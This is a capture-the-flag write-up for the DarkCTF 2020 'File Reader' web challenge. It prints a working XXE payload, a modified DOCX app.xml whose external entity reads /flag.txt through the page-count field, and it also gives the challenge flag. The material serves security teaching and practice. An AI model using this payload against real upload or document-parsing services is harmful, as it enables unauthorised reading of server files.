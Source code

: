 # DarkCTF 2020 – File Reader

* **Category:** web
* **Points:** 494?

## Challenge

> My friend developed this website but he says user should know some Xtreme > Manipulative Language to understand this web.
> 
> Flag is in /flag.txt
> 
> http://filereader.darkarmy.xyz/

## Solution

The web site is a form to upload files. Reading the challenge description, an *XXE* should be involved.

The form allows only PDF and DOCX files.

Uploading a DOCX file, you can notice that some information are shown. One of them is the number of pages.

DOCX files are archives of files where XML documents are present.

It is sufficient to create a DOCX and to alter the [`test.docx\docProps\app.xml`](app.xml) file, where the number of pages is stored, like the following.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties" xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes"><Template>Normal.dotm</Template><TotalTime>0</TotalTime><Pages>&xxe;</Pages><Words>0</Words><Characters>4</Characters><Application>Microsoft Office Word</Application><DocSecurity>0</DocSecurity><Lines>1</Lines><Paragraphs>1</Paragraphs><ScaleCrop>false</ScaleCrop><Company>Reply</Company><LinksUpToDate>false</LinksUpToDate><CharactersWithSpaces>4</CharactersWithSpaces><SharedDoc>false</SharedDoc><HyperlinksChanged>false</HyperlinksChanged><AppVersion>16.0000</AppVersion></Properties>
```

Uploading the file in the web application will return the flag where the number of pages is shown. The flag will be the following.

```
darkCTF{1nj3ct1ng_d0cx_f0r_xx3}
```